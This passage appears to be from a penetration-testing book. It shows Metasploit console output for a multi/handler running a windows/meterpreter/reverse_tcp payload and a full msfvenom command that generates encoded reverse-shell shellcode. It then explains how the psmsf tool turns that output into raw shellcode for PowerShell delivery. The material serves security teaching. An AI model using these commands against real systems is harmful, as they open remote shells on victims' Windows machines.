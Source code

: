 G>
G> `msf exploit(handler) > jobs -l`
G>
G> `Jobs`  
G> `====`
G>
G> `  Id  Name                    Payload                          Payload opts`  
G> `  --  ----                    -------                          ------------`  
G> `  6   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://<listener-attack-ip>:4444`
G>
G> `msf exploit(handler) > jobs -K`  
G> `Stopping all jobs...`  
G>
G> `msf exploit(handler) > jobs -l`
G>
G> `Jobs`  
G> `====`
G>
G> `No active jobs.`
G>
G> `ss -ant` Will confirm that we are not listening on `4444` any more.
















**PowerShell Payload creation details**

When `psmsf` is run as per above  
The Metasploit `windows/meterpreter/reverse_tcp` `shellcode` is generated by running msfvenom programmatically as the following:  

{linenos=off, lang=bash}
    msfvenom --payload windows/meterpreter/reverse_tcp LHOST=<listener-ip> LPORT=4444 StagerURILength=5 StagerVerifySSLCert=false --encoder x86/shikata_ga_nai --arch x86 --platform windows --smallest --format c
    # msfvenom --help-formats # Lists all the formats available with description.
    # msfvenom --list encoders # Lists all the encoders available with description.

`psmsf` then takes the generated output and in a function called `extract_msf_shellcode` strips out the characters that do not actually form part of the raw shellcode, like an assignment to a char array, double quotes, new lines, semicolons, white space, etc, and just leaves the raw shellcode.

`psmsf` then replaces any instances of `\x` with `0x`.
